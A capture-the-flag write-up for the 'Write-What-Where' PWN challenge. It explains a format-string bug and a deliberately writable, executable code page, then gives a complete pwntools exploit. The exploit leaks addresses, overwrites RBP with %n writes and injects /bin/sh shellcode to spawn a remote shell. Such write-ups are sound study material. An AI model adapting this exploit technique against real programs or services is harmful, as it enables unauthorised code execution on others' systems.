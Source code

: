 # Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN<br>
(The code was also provided)

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery
![](./chall.png)

# Vulnerabilities
First of all, we got this "gift" in the main function:
```c
mprotect((void*)(((unsigned long)&func >> 12) << 12),0x1000,PROT_READ | PROT_WRITE | PROT_EXEC); //This is a gift for you
```
In memory, for security purposes, there is no segment when the process has both write and execute permissions<br>
and here, this line is making the code segment both writeable and executable, so we can overwrite the code of any function from the binary with our shellcode<br><br>
And if to do that there is a format-string vulnerbility in the print_name function
```c
void print_name(char name[NAME_SIZE]){
    printf(name); // format string :)
}
```

# TL;DR

Technically we can exploit this vuln to overwrite some function code in the code segment with our own shellcode,<br>
but what i did was:<br>
1 Overwrite the RBP pointer using the format-string, to make it point to the menu function in the code segment<br>
2 Use the get_name function to overwrite the menu function code in the code segment with our shellcode.<br>
3 When the menu function gets executed in the next loop iteration, a shell will be poped instead :)<br>

# Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chall")
context.binary = exe

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

def conn():
    return remote("write-what-where.ctf.shellmates.club", 443, ssl=True)


def main():
    for i in range(10):
        r = conn()

        # Leaking stack & code addresses
        r.recvuntil(b'Choice')
        r.sendline(b'1')
        r.sendline(b'%7$p\n%9$p')
        r.recvuntil(b'Choice:')
        r.sendline(b'2')
        rbp_addr = int(r.recvline().strip(), 16)  - 0x30
        menu_addr = int(r.recvline().strip(), 16) - 3
        log.info(f"Leaking base pointer address :: {hex(rbp_addr)}")
        log.info(f"Leaking menu function address :: {hex(menu_addr)}")

        r.recvuntil(b'Choice')
        r.sendline(b'1')

        # forming the format-string payload
        left = (menu_addr >> 32) - 12 #12 'a' at the start of the payload
        log.info(f"First 2 most significant bytes to overwrite :: {hex(left)}")
        right = (menu_addr & 0xffffffff) - left #offset of aaaaaa and already written bytes
        log.info(f"last 4 least significant bytes to overwrite :: {hex(right)}")

        payload = f'aaaaaaaaaaaa%{str(left)}c%19$n%{str(right)}c%20$n'
        log.info(f"Format-string payload :: {payload}")
        if len(payload) != 40: # check to make sure for address are aligned in memory
            log.info(f"Bad payload length :: {len(payload)}. Retrying ...\n")
            print(payload)
            r.close()
            continue

        # overwriting the RBP pointer with a menu function pointer (minus some offset)
        log.info(f"Sending format-string payload, please wait ...")
        r.sendline(flat(b'aaaaaaaaaaaa%', bytes(str(left), 'utf-8'), b'c%19$n%', bytes(str(right), 'utf-8'), b'c%20$n', p64(rbp_addr+4), p64(rbp_addr)))
        r.recvuntil(b'Choice:')
        r.sendline(b'2')

        # Overwriting menu function code with shellcode using get_name option
        r.recvuntil(b'Choice:')
        log.info(f"Overwriting menu function code with shellcode, here is your shell ;)\n")
        r.sendline(b'1')
        r.sendline(flat(shellcode))
        r.recvuntil(b'Name:')
        r.interactive()
        break


if __name__ == "__main__":
    main()
```
# Flag from tty

I ran my exploit on my second thinkpad (that had only arch installed with no display manager, because my main laptop was acting up)
![](../flag.jpg)
